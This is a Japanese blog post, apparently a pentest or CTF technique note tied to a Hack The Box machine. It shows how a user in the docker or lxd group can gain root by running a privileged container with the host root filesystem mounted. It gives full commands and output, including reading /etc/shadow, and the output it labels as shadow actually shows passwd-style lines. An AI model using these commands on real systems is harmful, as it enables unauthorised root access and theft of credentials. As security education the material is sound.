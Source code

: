 ```yaml
---
layout:        post
title:         "Dockerを使った権限昇格"
date:          2021-05-23
category:      Security
cover:         /assets/cover1.jpg
redirect_from:
comments:      true
published:     true
latex:         false
photoswipe:    false
syntaxhighlight: true
# sitemap: false
# feed:    false
---
```


sudoを実行できないユーザでも、dockerグループに所属していれば、Dockerを使うことで権限昇格ができるようになります。

### Docker

Dockerを使ったやりかた：

```bash
docker run --privileged -v /:/mnt/root --rm -it debian
```

- `--priviledged` はコンテナ内のプロセスをルート権限で起動するためのオプションです。
- `-v <from>:<to>` はホストOSのディレクトリを、コンテナ内にマウントします。ホストOSのルートディレクトリをマウントすることで、ホストのファイルシステム全体にアクセスできるようになります。

上記のコマンドを実行すると、ルート権限でファイルシステム全体にアクセスできます。

実行結果：

```console
$ docker run --privileged -v /:/mnt/root --rm -it debian
root:/# id
uid=0(root) gid=0(root) groups=0(root)

root:/# cat /mnt/root/etc/shadow
root:x:0:0:root:/root:/sbin/nologin
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...省略...
```

### LXD

同様に、Linux上でコンテナを扱う LXD でも同じことができます。
sudoを実行できないユーザでも、lxdグループに所属していれば、LXDを使うことで権限昇格ができます。

LXDを使ったやりかた：

```bash
# alpineイメージのビルド
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
# 管理者権限付きで初期化
lxc image import ./alpine-v3.10-x86_64-20191008_1227.tar.gz --alias rootimage
lxc init rootimage ignite -c security.privileged=true
# ホストOSのルートディレクトリをコンテナにマウント
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
# コンテナの起動
lxc start ignite
lxc exec ignite /bin/sh
```

実行結果：

```console
~ # id
id
uid=0(root) gid=0(root)

~ # cd /mnt/root/etc/shadow
root:/# cat /mnt/root/etc/shadow
root:x:0:0:root:/root:/sbin/nologin
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...省略...
```

以上です。


### 参考文献

- [docker \| GTFOBins](https://gtfobins.github.io/gtfobins/docker/)
- Hack The Box - Included
